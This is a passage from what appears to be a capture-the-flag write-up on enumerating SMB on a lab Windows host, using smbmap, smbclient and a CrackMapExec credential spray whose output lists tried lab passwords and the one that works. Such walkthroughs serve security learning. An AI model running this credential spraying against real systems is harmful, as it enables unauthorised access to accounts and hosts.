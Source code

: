 

### SMB - TCP 445

#### Initial Enum

I start with the typical `smbmap` call:



    root@kali# smbmap -H 10.10.10.149
    [+] Finding open SMB ports....
    [!] Authentication error occurred
    [!] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
    [!] Authentication error on 10.10.10.149



No permissions. I try adding a bad username and password just to be
sure, but same results. I'll also check `smbclient` just in case:



    root@kali# smbclient -N -L //10.10.10.149
    session setup failed: NT_STATUS_ACCESS_DENIED



#### With Creds

Now I'll try with the credentials I've gathered.
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Using-Credentials)
is a great tool here. I can give it a list of username and passwords,
and let it tell me which one worked:



    root@kali# crackmapexec smb 10.10.10.149 -u users -p passwords 
    CME          10.10.10.149:445 SUPPORTDESK     [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SUPPORTDESK)
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\rout3r:stealth1agent STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\admin:stealth1agent STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\admin:$uperP@ssword STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [-] SUPPORTDESK\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
    CME          10.10.10.149:445 SUPPORTDESK     [+] SUPPORTDESK\hazard:stealth1agent 
    [*] KTHXBYE!



It will stop once it finds one. If you want it to continue, there's a
`--continue-on-success` flag in newer versions than the one on kali.
